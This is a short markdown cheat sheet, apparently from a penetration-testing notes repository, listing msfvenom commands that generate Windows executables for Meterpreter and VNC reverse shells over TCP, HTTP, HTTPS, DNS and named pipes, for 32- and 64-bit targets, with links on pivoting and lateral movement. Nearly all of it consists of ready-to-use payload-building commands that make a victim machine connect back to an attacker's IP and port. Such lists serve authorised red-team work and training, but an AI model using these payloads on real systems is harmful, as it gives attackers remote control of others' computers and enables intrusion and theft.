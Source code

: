# Reverse Shells

## Interactive Shells

1. x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_https handlersslcert=<file.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_tcp_dns lhost=<dns_URL> lport=<PORT> -f exe met-x86.exe`

- Specify the compromised windows host with `pipehost`

`$ msfvenom -p windows/meterpreter/reverse_named_pipe pipehost=<compromised_target_IP> pipename=<PIPENAME> -f exe -o met-x86.exe`

2. x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_https handlersslcert=<file.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met_x86_64.exe`

- Specify the compromised windows host with `pipehost`

`$ msfvenom -p windows/x64/meterpreter/reverse_named_pipe pipehost=<compromised_target_IP> pipename=<PIPENAME> -f exe -o met-x64.exe`

## VNC

1. x86 (32-bit) Payloads

`$ msfvenom -p windows/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe`

`$ msfvenom -p windows/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe`

2. x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

`$ msfvenom -p windows/x64/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

`$ msfvenom -p windows/x64/vncinject/reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

---
## References

- [Metasploit Documentation: Pivoting in Metasploit](https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html)

- [BorderGate: Lateral Movement With Named Pipes](https://www.bordergate.co.uk/lateral-movement-with-named-pipes/)